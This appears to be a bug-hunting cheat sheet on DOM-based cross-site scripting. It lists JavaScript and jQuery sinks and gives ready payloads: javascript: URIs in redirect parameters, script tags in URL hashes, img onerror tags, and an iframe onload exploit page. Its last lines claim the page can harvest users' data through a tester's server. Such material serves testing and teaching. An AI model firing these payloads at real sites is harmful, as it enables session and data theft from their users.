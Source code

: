 ### The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:   
`document.write()` | `document.writeln()` | `document.domain` | `element.innerHTML` | `element.outerHTML` | `element.insertAdjacentHTML` | `element.onevent`

### The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:
`add()` | `after()` | `append()` | `animate()` | `insertAfter()` | `insertBefore()` | `before()` | `html()` | `prepend()` | `replaceWith()` | `wrap()` | `wrapInner()` | `wrapAll()` | `has()` | `constructor()` | `init()` | `index()` | `jQuery.parseHTML()` | `$.parseHTML()`

▪ Identifying Weaknesses in Input Handling:
• Look for the direct usage of these inputs in dangerous functions, such as:
  - `eval()`, `setTimeout()`, or `setInterval()` when passing string values.
  - `innerHTML` or `outerHTML`, which may directly render content.
  - `document.write()` or `document.writeln()`.
  - `addEventListener()` or any function that executes JavaScript code based on user inputs.
  - As soon as you find the first link followed by a secondary link, the parameter is usually named `returnurl`, `url`, or `returnpath`. Inject the code javascript:confirm() into it, or look for bypass techniques.
  - Example: `?returnUrl=javascript:alert(document.domain)`

- If the application displays content based on `document.location.hash`:
  Example: 
  ```html
  http://example.com/#<script>alert('XSS')</script>
  ```

- When using `innerHTML` with unsanitized data:
  Example: 
  ```html
  <img src=x onerror=alert('XSS')>
  ```

- Using functions like `eval()` with URL parameters:
  Example: 
  ```html
  http://example.com/?input=alert('XSS')
  ```

- First, we create a regular `.txt` file, let's assume its name is `xss.txt`. Then, we write the following code inside it:
  ```html
  <iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
  ```

- Next, we convert the file to an HTML file like this:
  `xss.txt -> xss.html`, and then open the file. What happens is that we can pull data remotely. So, if we set up a server, we can remotely collect a copy of the user's data.

